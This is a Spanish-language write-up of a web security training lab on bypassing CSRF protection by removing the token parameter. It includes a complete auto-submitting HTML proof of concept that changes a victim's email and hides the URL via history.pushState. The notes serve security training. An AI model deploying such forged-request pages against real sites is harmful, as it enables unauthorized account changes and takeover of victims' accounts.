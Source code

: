 ![20250709220142.png](20250709220142.png)

Ciertas aplicaciones realizan la validación del token de forma adecuada solo cuando este está incluido; sin embargo, si el token no se envía, omiten la validación por completo.

Esto permite que un atacante eluda la verificación simplemente eliminando por completo el parámetro del token (no solo su valor), lo que abre la posibilidad de ejecutar un ataque CSRF.

## LAB 
![20250709223713.png](20250709223713.png)

En una solicitud POST, el token CSRF se envía junto al correo electrónico en el cuerpo. Para omitir la protección, se puede eliminar el parámetro CSRF o dejarlo vacío, asegurándose de no usar un correo ya registrado según la recomendación del laboratorio.

- Solicitud original

![20250709224053.png](20250709224053.png)

- Solicitud sin el CSRF

![20250709224156.png](20250709224156.png)

- POC :

![20250709224307.png](20250709224307.png)

```html
<!DOCTYPE html>
<html lang="en">
	<body>
  <script>history.pushState('', '', '/')</script>
		<h1>Form CSRF PoC</h1>
		<form method="POST" action="https://0abc003e030a4bca804d0398001600fc.web-security-academy.net/my-account/change-email">
			<input type="hidden" name="email" value="test@test.com">
			<input type="submit" value="Submit Request">
		</form>
<script>
    document.forms[0].submit();
</script>
	</body>
</html>
```

En nuestro formulario malicioso, agregaremos:

```html
  <script>history.pushState('', '', '/')</script>
```

que se encargara de cambiar la URL mostrada en la barra del navegador a /, sin recargar la página ni redirigir al usuario

Luego debemos de copiar y pegar en el cuerpo de nuetro servidor malicioso y presionar "Deviler expliot to victim"